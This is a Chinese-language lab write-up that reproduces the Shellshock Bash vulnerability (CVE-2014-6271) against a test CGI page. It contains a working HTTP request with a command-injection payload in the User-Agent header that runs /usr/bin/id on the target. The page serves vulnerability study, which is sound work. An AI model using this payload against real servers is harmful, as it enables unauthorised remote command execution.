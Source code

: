 

# Shellshock远程命令注入（CVE-2014-6271）

###### by ADummy

### 0x00利用路线

​			Burpsuite发包--->命令执行

### 0x01漏洞介绍

​		CVE-2014-6271（即“破壳”漏洞）广泛存在与GNU Bash 版本小于等于4.3的*inux的系统之中，只要目标服务器开放着与Bash相交互的应用与服务，就有可能成功触发漏洞，获取目标系统当前Bash运行用户相同权限的shell接口

### 0x 02漏洞复现

当您访问时，`http://your-ip/`您应该看到两个文件：

- safe.cgi
- victim.cgi

由最新版本的bash生成的safe.cgi，而受害人.cgi是由bash4.3生成的页面，该页面容易受到shellshock的攻击。

当访问受害者.cgi时，我们可以在用户代理字符串中发送包含有效载荷的命令，并且该命令已成功执行：

```
GET /victim.cgi HTTP/1.1

Host: 192.168.0.142:8080

Accept-Encoding:gzip, deflate

Accept: */*

Accept-Language: en

User-Agent: () { foo ; } ; echo Content-Type: text/plain; echo; /usr/bin/id

Connection: close
```

![Shellshock_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Shellshock_RCE_1.jpg)

![Shellshock_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Shellshock_RCE_2.jpg)





### 



